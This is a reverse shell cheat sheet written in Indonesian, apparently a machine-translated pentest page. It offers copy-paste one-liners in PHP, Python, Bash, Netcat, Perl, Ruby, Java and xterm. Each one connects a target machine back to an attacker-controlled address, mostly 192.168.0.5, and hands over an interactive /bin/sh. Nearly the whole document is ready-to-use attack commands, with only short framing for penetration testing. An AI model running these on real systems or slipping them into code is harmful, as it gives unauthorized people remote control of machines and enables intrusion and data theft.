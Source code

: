 ### Reverse Shell Cheat Sheet

Jika Anda cukup beruntung menemukan kerentanan eksekusi perintah selama tes penetrasi, tidak lama kemudian Anda mungkin akan membutuhkan shell interaktif.

Jika tidak mungkin untuk menambahkan file akun / kunci SSH / .rhosts baru dan cukup masuk, langkah Anda berikutnya kemungkinan adalah mengembalikan balik shell terbalik atau mengikat shell ke port TCP. Halaman ini membahas tentang yang pertama.

Pilihan Anda untuk membuat shell terbalik dibatasi oleh bahasa scripting yang diinstal pada sistem target - meskipun Anda mungkin bisa mengunggah program biner juga jika Anda telah dipersiapkan dengan baik.

Contoh-contoh yang ditampilkan dirancang untuk sistem seperti Unix. Beberapa contoh di bawah ini juga dapat berfungsi di Windows jika Anda menggunakan pengganti "/ bin / sh -i" dengan "cmd.exe".

Masing-masing metode di bawah ini bertujuan untuk menjadi satu-liner yang dapat Anda salin / tempel. Karena itu, kalimat tersebut cukup pendek, tetapi tidak terlalu mudah dibaca.

#### Php :

```
php -r '$sock=fsockopen("192.168.0.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Python :

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Bash :

```
bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
```

#### Netcat :

```
nc -e /bin/sh 192.168.0.5 4444
```

#### Perl :

```
perl -e 'use Socket;$i="192.168.0.5";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Ruby :

```
ruby -rsocket -e'f=TCPSocket.open("192.168.0.5",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Java :

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5< >/dev/tcp/192.168.0.5/4444;cat <& 5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### xterm :

```
xterm -display 192.168.0.5:4444
```

